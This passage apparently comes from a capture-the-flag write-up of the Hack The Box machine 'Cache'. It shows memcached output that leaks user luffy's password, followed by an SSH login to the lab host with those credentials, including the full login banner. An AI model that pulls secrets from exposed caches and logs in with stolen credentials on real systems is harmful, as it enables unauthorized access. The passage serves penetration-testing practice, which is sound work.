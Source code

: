 ```shell
END

get passwd
VALUE passwd 0 9
0n3_p1ec3
END

get file
VALUE file 0 7
nothing
END

get account
VALUE account 0 9
afhj556uo
END
```
Got credentials of user luffy as `luffy:0n3_p1ec3`

### SSH as luffy

We can SSH to the server using luffy's credentials:

```shell
cfx:  ~/Documents/htb/cache
→ ssh luffy@10.10.10.188
The authenticity of host '10.10.10.188 (10.10.10.188)' can't be established.
ECDSA key fingerprint is SHA256:/qQ34g2zzGVlmbMIKeD7JhlhDf/SPzgYFz000v+3KBI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.188' (ECDSA) to the list of known hosts.
luffy@10.10.10.188's password:
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct 14 14:05:47 UTC 2020

  System load:  0.14              Processes:              185
  Usage of /:   75.3% of 8.06GB   Users logged in:        0
  Memory usage: 22%               IP address for ens160:  10.10.10.188
  Swap usage:   0%                IP address for docker0: 172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

110 packages can be updated.
0 updates are security updates.


Last login: Wed May  6 08:54:44 2020 from 10.10.14.3
luffy@cache:~$ whoami
luffy
```
